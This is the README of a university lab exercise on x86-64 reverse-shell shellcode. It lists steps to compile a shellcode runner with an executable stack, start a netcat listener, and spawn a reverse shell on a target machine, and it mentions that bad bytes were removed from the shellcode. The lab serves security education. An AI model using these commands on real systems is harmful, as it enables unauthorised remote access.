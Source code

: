 # Reverse Shell x86-64

UMass Amherst 2022 Spring CS390R Lab 2

- [Lab Exercise Instruction](Lab%202.pdf)
- [Solution Article](https://silviavali.github.io/blog/2019-01-25-blog-SLAE2/)

### Special characters eliminated

I improve the shellcode such
that `0x00(NUL), 0x0a(LF), 0x0b(VT), 0x0d(CR), 0xff(EOF)` are eliminated.

## Reverse Shell

![](reverse_shell.png)

1. Compile [`shellcode_runner.c`](shellcode_runner.c), which read the shellcode
   from stdin and execute it.

```bash
gcc shellcode_runner.c -z execstack -o shellcode_runner -g
```

2. Listen from local port

```bash
nc -nvlp 8080
```

3. Spawn reverse shell on target machine

```bash
python3 reverse_shell.py
```

## Environments

- x86-64 Linux (VM recommended)
- `python3` environment with [`pwntools`](https://github.com/Gallopsled/pwntools)
  installed
- `tmux` if the script is running within an ssh session

## Debug

![](debug.png)

Set `DEBUG = True` to debug the assembly with `gdb`.
